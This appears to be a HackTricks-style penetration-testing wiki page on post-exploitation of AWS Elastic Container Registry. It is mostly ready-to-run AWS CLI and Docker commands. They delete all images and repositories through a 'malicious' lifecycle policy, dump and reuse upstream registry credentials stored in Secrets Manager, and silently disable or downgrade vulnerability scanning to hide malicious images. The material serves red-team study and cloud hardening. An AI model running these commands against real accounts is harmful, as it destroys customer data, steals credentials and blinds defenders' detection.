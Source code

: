 # AWS - ECR Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## ECR

For more information check

{{#ref}}
../../aws-services/aws-ecr-enum.md
{{#endref}}

### Login, Pull & Push

```bash
# Docker login into ecr
## For public repo (always use us-east-1)
aws ecr-public get-login-password --region us-east-1 | docker login --username AWS --password-stdin public.ecr.aws/<random-id>
## For private repo
aws ecr get-login-password --profile <profile_name> --region <region> | docker login --username AWS --password-stdin <account_id>.dkr.ecr.<region>.amazonaws.com
## If you need to acces an image from a repo if a different account, in <account_id> set the account number of the other account

# Download
docker pull <account_id>.dkr.ecr.<region>.amazonaws.com/<repo_name>:latest
## If you still have the error "Requested image not found"
## It might be because the tag "latest" doesn't exit
## Get valid tags with:
TOKEN=$(aws --profile <profile> ecr get-authorization-token --output text --query 'authorizationData[].authorizationToken')
curl -i -H "Authorization: Basic $TOKEN" https://<account_id>.dkr.ecr.<region>.amazonaws.com/v2/<img_name>/tags/list

# Inspect the image
docker inspect sha256:079aee8a89950717cdccd15b8f17c80e9bc4421a855fcdc120e1c534e4c102e0
docker inspect <account id>.dkr.ecr.<region>.amazonaws.com/<image>:<tag> # Inspect the image indicating the URL

# Upload (example uploading purplepanda with tag latest)
docker tag purplepanda:latest <account_id>.dkr.ecr.<region>.amazonaws.com/purplepanda:latest
docker push <account_id>.dkr.ecr.<region>.amazonaws.com/purplepanda:latest

# Downloading without Docker
# List digests
aws ecr batch-get-image --repository-name level2 \
    --registry-id 653711331788 \
    --image-ids imageTag=latest | jq '.images[].imageManifest | fromjson'

## Download a digest
aws ecr get-download-url-for-layer \
    --repository-name level2 \
    --registry-id 653711331788 \
    --layer-digest "sha256:edfaad38ac10904ee76c81e343abf88f22e6cfc7413ab5a8e4aeffc6a7d9087a"
```

After downloading the images you should **check them for sensitive info**:

{{#ref}}
https://book.hacktricks.wiki/en/generic-methodologies-and-resources/basic-forensic-methodology/docker-forensics.html
{{#endref}}

### `ecr:PutLifecyclePolicy` | `ecr:DeleteRepository` | `ecr-public:DeleteRepository` | `ecr:BatchDeleteImage` | `ecr-public:BatchDeleteImage`

An attacker with any of these permissions can **create or modify a lifecycle policy to delete all images in the repository** and then **delete the entire ECR repository**. This would result in the loss of all container images stored in the repository.

```bash
# Create a JSON file with the malicious lifecycle policy
echo '{
  "rules": [
    {
      "rulePriority": 1,
      "description": "Delete all images",
      "selection": {
        "tagStatus": "any",
        "countType": "imageCountMoreThan",
        "countNumber": 0
      },
      "action": {
        "type": "expire"
      }
    }
  ]
}' > malicious_policy.json

# Apply the malicious lifecycle policy to the ECR repository
aws ecr put-lifecycle-policy --repository-name your-ecr-repo-name --lifecycle-policy-text file://malicious_policy.json

# Delete the ECR repository
aws ecr delete-repository --repository-name your-ecr-repo-name --force

# Delete the ECR public repository
aws ecr-public delete-repository --repository-name your-ecr-repo-name --force

# Delete multiple images from the ECR repository
aws ecr batch-delete-image --repository-name your-ecr-repo-name --image-ids imageTag=latest imageTag=v1.0.0

# Delete multiple images from the ECR public repository
aws ecr-public batch-delete-image --repository-name your-ecr-repo-name --image-ids imageTag=latest imageTag=v1.0.0
```

{{#include ../../../../banners/hacktricks-training.md}}





### Exfiltrate upstream registry credentials from ECR Pull‑Through Cache (PTC)

If ECR Pull‑Through Cache is configured for authenticated upstream registries (Docker Hub, GHCR, ACR, etc.), the upstream credentials are stored in AWS Secrets Manager with a predictable name prefix: `ecr-pullthroughcache/`. Operators sometimes grant ECR admins broad Secrets Manager read access, enabling credential exfiltration and reuse outside AWS.

Requirements
- secretsmanager:ListSecrets
- secretsmanager:GetSecretValue

Enumerate candidate PTC secrets
```bash
aws secretsmanager list-secrets \
  --query "SecretList[?starts_with(Name, 'ecr-pullthroughcache/')].Name" \
  --output text
```

Dump discovered secrets and parse common fields
```bash
for s in $(aws secretsmanager list-secrets \
  --query "SecretList[?starts_with(Name, 'ecr-pullthroughcache/')].ARN" --output text); do
  aws secretsmanager get-secret-value --secret-id "$s" \
    --query SecretString --output text | tee /tmp/ptc_secret.json
  jq -r '.username? // .user? // empty' /tmp/ptc_secret.json || true
  jq -r '.password? // .token? // empty' /tmp/ptc_secret.json || true
done
```

Optional: validate leaked creds against the upstream (read‑only login)
```bash
echo "$DOCKERHUB_PASSWORD" | docker login --username "$DOCKERHUB_USERNAME" --password-stdin registry-1.docker.io
```

Impact
- Reading these Secrets Manager entries yields reusable upstream registry credentials (username/password or token), which can be abused outside AWS to pull private images or access additional repositories depending on upstream permissions.


### Registry-level stealth: disable or downgrade scanning via `ecr:PutRegistryScanningConfiguration`

An attacker with registry-level ECR permissions can silently reduce or disable automatic vulnerability scanning for ALL repositories by setting the registry scanning configuration to BASIC without any scan-on-push rules. This prevents new image pushes from being scanned automatically, hiding vulnerable or malicious images.

Requirements
- ecr:PutRegistryScanningConfiguration
- ecr:GetRegistryScanningConfiguration
- ecr:PutImageScanningConfiguration (optional, per‑repo)
- ecr:DescribeImages, ecr:DescribeImageScanFindings (verification)

Registry-wide downgrade to manual (no auto scans)
```bash
REGION=us-east-1
# Read current config (save to restore later)
aws ecr get-registry-scanning-configuration --region "$REGION"

# Set BASIC scanning with no rules (results in MANUAL scanning only)
aws ecr put-registry-scanning-configuration \
  --region "$REGION" \
  --scan-type BASIC \
  --rules '[]'
```

Test with a repo and image
```bash
acct=$(aws sts get-caller-identity --query Account --output text)
repo=ht-scan-stealth
aws ecr create-repository --region "$REGION" --repository-name "$repo" >/dev/null 2>&1 || true
aws ecr get-login-password --region "$REGION" | docker login --username AWS --password-stdin ${acct}.dkr.ecr.${REGION}.amazonaws.com
printf 'FROM alpine:3.19\nRUN echo STEALTH > /etc/marker\n' > Dockerfile
docker build -t ${acct}.dkr.ecr.${REGION}.amazonaws.com/${repo}:test .
docker push ${acct}.dkr.ecr.${REGION}.amazonaws.com/${repo}:test

# Verify no scan ran automatically
aws ecr describe-images --region "$REGION" --repository-name "$repo" --image-ids imageTag=test --query 'imageDetails[0].imageScanStatus'
# Optional: will error with ScanNotFoundException if no scan exists
aws ecr describe-image-scan-findings --region "$REGION" --repository-name "$repo" --image-id imageTag=test || true
```

Optional: further degrade at repo scope
```bash
# Disable scan-on-push for a specific repository
aws ecr put-image-scanning-configuration \
  --region "$REGION" \
  --repository-name "$repo" \
  --image-scanning-configuration scanOnPush=false
```

Impact
- New image pushes across the registry are not scanned automatically, reducing visibility of vulnerable or malicious content and delaying detection until a manual scan is initiated.


### Registry‑wide scanning engine downgrade via `ecr:PutAccountSetting` (AWS_NATIVE -> CLAIR)

Reduce vulnerability detection quality across the entire registry by switching the BASIC scan engine from the default AWS_NATIVE to the legacy CLAIR engine. This doesn’t disable scanning but can materially change findings/coverage. Combine with a BASIC registry scanning configuration with no rules to make scans manual-only.

Requirements
- `ecr:PutAccountSetting`, `ecr:GetAccountSetting`
- (Optional) `ecr:PutRegistryScanningConfiguration`, `ecr:GetRegistryScanningConfiguration`

Impact
- Registry setting `BASIC_SCAN_TYPE_VERSION` set to `CLAIR` so subsequent BASIC scans run with the downgraded engine. CloudTrail records the `PutAccountSetting` API call.

Steps
```bash
REGION=us-east-1

# 1) Read current value so you can restore it later
aws ecr get-account-setting --region $REGION --name BASIC_SCAN_TYPE_VERSION || true

# 2) Downgrade BASIC scan engine registry‑wide to CLAIR
aws ecr put-account-setting --region $REGION --name BASIC_SCAN_TYPE_VERSION --value CLAIR

# 3) Verify the setting
aws ecr get-account-setting --region $REGION --name BASIC_SCAN_TYPE_VERSION

# 4) (Optional stealth) switch registry scanning to BASIC with no rules (manual‑only scans)
aws ecr put-registry-scanning-configuration --region $REGION --scan-type BASIC --rules '[]' || true

# 5) Restore to AWS_NATIVE when finished to avoid side effects
aws ecr put-account-setting --region $REGION --name BASIC_SCAN_TYPE_VERSION --value AWS_NATIVE
```

